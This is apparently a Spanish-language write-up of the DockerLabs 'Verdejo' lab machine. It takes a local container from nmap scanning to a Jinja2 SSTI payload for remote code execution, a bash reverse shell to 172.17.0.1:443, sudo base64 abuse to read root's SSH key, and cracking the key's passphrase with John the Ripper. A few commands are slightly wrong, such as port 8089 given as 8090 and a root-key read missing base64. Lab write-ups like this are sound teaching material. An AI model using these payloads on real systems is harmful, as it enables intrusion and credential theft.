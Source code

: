 # [Verdejo](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh verdejo.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

<br>
<br>

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los reultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **22**, **8089**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/30e4a4c2-66ec-4fc4-b850-c5ed66365f4d)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con la pagina por defecto de Apache2. Si intentamos hacer fuzzing no tendremos resultados.

<br>
<br>

## Página Web (Puerto 8089)

Al no tener exito en el puerto 80, probamos a intentar acceder al puerto **8089** de la siguiente forma: `172.17.0.2:8090`. Se puede observar un recuadro para poner cosas.  
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3b7a51a4-0d27-438a-9213-e131dbfc6de2)

<br>

Lo primero que se me ocurre es ver si es vulnerable a `SSTI`, una manera de comprobarlo es poniendo lo suiguiente `{{7*7}}`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/818083c0-b051-47d7-ab90-2a7d84d4273b)

<br>

Como observamos es vulnerable a SSTI por lo que deberíamos hacer ahora es buscar un payload el cual nos permita ejecutar comando de forma remota (RCE), por ejemplo en este [repositorio](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection) encontramos un montón de payloads pero el que nos interesa a nosotros es el de **Jinja2** que sería algo así: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` 
<br> 

Al introducir lo anterior comprobamos que nos responde con lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bcd2caeb-371c-4878-8b66-09a1c52599d8)

<br>

Por lo que ahora nos mandaríamos una revshell. Este parte se puede hacer de muchas formas. <br>
Una de ellas sería ponernos en escucha con netcat, escribiendo en nuestra terminal `nc -nlvp 443`, y despues en el payload en vez de poner el comando `id`, nos mandaremos una revshell poniendo lo siguiente: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}` 

<br>
Es importante escapar las comillas simples ya que si no nos dará error.

<br>

Una vez mandada la revshell podemos ver que todo ha ido bien: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4e8a35d2-6b8c-496f-a88b-d53638c9a03e)

<br>
<br>

## Escala de Privilegios

Antes de empezar a probar como escalar privlegios haremos un sencillo tratamiento de la tty poniendo en orden lo suiguiente: <br>
`script /dev/null -c bash` <br>
`Pulsamos CTRL+Z` <br>
`stty raw -echo; fg` <br>
`reset xterm` <br>
`export SHELL=bash && export TERM=xterm` <br>

<br>

Una vez hecho el Tratamiento de la tty, podemos comenzar con la escala escribimos `sudo -l` podemos ver
que podemos ejecutar base64 siendo root sin proporcionar contraseña. <br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bf198297-b8dd-4df1-947c-bc992e8b1dca)


<br>

Entonces mirando en [GTFOBins](https://gtfobins.github.io/) podemos ver que nos permite File Read poniendo lo siguiente -> `sudo base64 "file_to_read" | base64 --decode`. Entonces como recordamos que tiene el puerto 22 abierto es decir el ssh, podemos pobrar a leer la id_rsa del root que sería de la siguiente forma -> `sudo -u root /root/.ssh/id_rsa | base64 --decode`, por lo que visualizariamos la id_rsa del root por lo que nos la copiamos en un archivo en nuestro directorio de trabajo.

<br>
<br>

## JhonTheRipper

Una vez que tenemos la id_rsa si probamos a intentar logear como root a través del ssh de la siguiente forma -> `ssh -i id_rsa root@172.17.0.2`, nos pedirá una passphare la cual no tenemos por lo que pasaremos a crackear con JhonTheRipper. <br>

En primer lugar sacamos el hash de la id_rsa de la siguiente forma `ssh2john id_rsa > hash`, una vez que tenemos el hash pasamos a crackearlo para intentar sacar la passphare, lo haremos de la siguiente forma -> `john hash --wordlist=/usr/share/wordlist/rockyou.txt` y nos mostraría algo tal que así:

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1c2569dd-4f3a-435f-a99e-6ab421bbbb89)


<br>

Una vez que conocemos la passphare probamos a auntenticarnos como lo intentamos antes -> `ssh -i id_rsa root@172.17.0.2`, y despues introducimos la passphare y listo ya somos root!.

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3ff97e38-6c17-4410-a79e-016f9fe3c597)

